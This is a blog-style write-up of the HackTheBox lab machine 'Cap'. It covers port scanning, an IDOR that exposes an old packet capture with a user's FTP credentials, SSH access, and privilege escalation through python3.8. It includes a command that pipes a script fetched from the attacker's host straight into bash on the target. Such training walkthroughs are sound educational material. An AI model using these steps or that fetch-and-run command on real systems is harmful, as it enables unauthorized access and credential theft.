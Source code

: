 ```yaml
---
title: Cap
date: 2022-08-13 14:27
categories: [htb]
tags: [Linux,IDOR,Packet Capture,SUID Exploitation]
--- 
```

Cap is a pretty straight-forward easy level machine on HacktheBox that I had alot of fun completing. We start by finding an IDOR vulnerability on the web server which lets us grab a .pcap file from the past. Opening it with wireshark shows us credentials for a user on the machine, and from there we get to root through an SUID exploit.

### Enumeration

Starting with NMAP, we see that FTP, SSH, and HTTP services are running on ports 21, 22, and 80.

```bash
sudo nmap -sC 10.10.10.245
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-13 18:53 EDT
Nmap scan report for 10.10.10.245
Host is up (0.052s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http
|_http-title: Security Dashboard
```

Before we look at the website, it's always a good idea to check if anonymous login is enabled on the FTP server. 

```bash
$ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
```

Turns out it's disabled-let's just check out the website,seems to be a security monitoring dashboard which contains information on the host's internal network. Potential username on the right side "Nathan".

![site](/assets/img/cap/site.png)

We can see the output of ifconfig

![ifconfig](/assets/img/cap/ifconfig.png)

netstat

![netstat](/assets/img/cap/netstat.png)

and most interestingly, an endpoint on http://10.10.10.245/data/1 that contains a (blank) pcap file from the past 5 seconds.

![data](/assets/img/cap/data.png)
![pcap](/assets/img/cap/pcap.png)

### Using the IDOR to Get Nathan's Credentials

What happens however if we change the url to http://10.10.10.245/data/0 ?

![data](/assets/img/cap/idor.png)
![data](/assets/img/cap/pcap2.png)

we get a packet capture from the past with an insecure direct object reference (IDOR).

![creds](/assets/img/cap/creds.png)

In this case, we can see an in-the-clear successful authentication attempt from Nathan to the FTP server, showing us his credentials. Using these credentials, we can login to the machine through SSH and grab the user flag.

![creds](/assets/img/cap/user.png)

### Privilege Escalation

From here we can get [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) on the box, an awesome script that looks for tons of priv-esc vectors. We start by serving linpeas.sh from our local machine on a simple python http server.

![web](/assets/img/cap/web.png)
![web](/assets/img/cap/mysite.png)

Then from the victim's machine we pull the script from our website and execute it automatically with:

```bash
curl 10.10.14.17:8000/linpeas.sh | bash
```

We get a hit on our server from the victim's IP address, and the script executes on the victim's machine.

![hit](/assets/img/cap/hit.png)

Linpeas found something juicy:
![suid](/assets/img/cap/suid.png)
Nathan has the SUID bit on /usr/bin/python3.8, which can be used to get a root shell on the box with a trick from [hackingarticles](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/).
![root](/assets/img/cap/root.png)